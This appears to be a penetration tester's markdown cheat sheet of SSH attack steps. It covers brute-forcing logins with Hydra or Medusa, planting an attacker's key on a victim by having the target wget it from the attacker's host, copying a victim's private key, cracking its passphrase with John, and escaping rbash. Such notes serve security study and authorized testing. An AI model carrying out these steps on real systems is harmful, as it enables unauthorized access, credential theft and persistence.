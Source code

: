 ### **Checks**

- [ ] Try easy username-password combinations
- [ ] Check for username enumeration vulnerabilities
- [ ] Check version for vulnerabilities
- [ ] (Only when getting desperate) Try brute force with Hydra, Medusa

Operators Handbook pg 288
#### SSH Enumeration
```bash - kali
ssh $TARGET -p 22
```
#### Generate key upload to victim
Target:
```bash - target
cd ~
```
```bash - target
mkdir .ssh && cd .ssh
```
Kali:
```bash - kali
ssh-keygen
```
```bash - kali
cp /home/kali/.ssh/id_rsa* .
```
![[Python#Server]]
Target:
```bash - target
wget http://$KALI/id_rsa.pub
```
```bash - target
mv id_rsa.pub authorized_keys
```
Grant proper permissions (0700 for **~/.ssh** and 0644 for **~/.ssh/authorized_keys**).
Kali:
```bash - kali
chmod 600 id_rsa
```
```bash - kali
ssh -i id_rsa $USER@$TARGET
```
If that fails, try:
```bash - kali
echo id_rsa.pub > ~/.ssh/authorized_keys
```
Then:
```bash - kali
ssh $USER@$TARGET
```
#### id_rsa
```bash
cat home/user/.ssh/id_rsa
```
copy value to local id_rsa file
```bash
sudo chmod 600 id_rsa
```
```bash
ssh -i id_rsa $USER@$TARGET -p 2222
```
#### Disable login scripts
```bash - kali
ssh $USER@$TARGET -t 'bash --noprofile'
```
#### ssh2john keyphrase
```bash
locate ssh2john
```
```bash
wget https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/ssh2john.py
```
```python
python3 /usr/share/john/ssh2john.py id_rsa > key.txt
```
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt key.txt
```
#### [Error] no matching host key exchange type found.
```bash - kali
ssh $TARGET -oKexAlgorithms=+diffie-hellman-group1-sha1 -c aes128-cbc -p 22
```
```bash - kali
ssh $TARGET -oHostKeyAlgorithms=+ssh-dss -p 22
```
#### Escaping from rbash
```bash
ssh user@$TARGET -t "bash --noprofile"
```

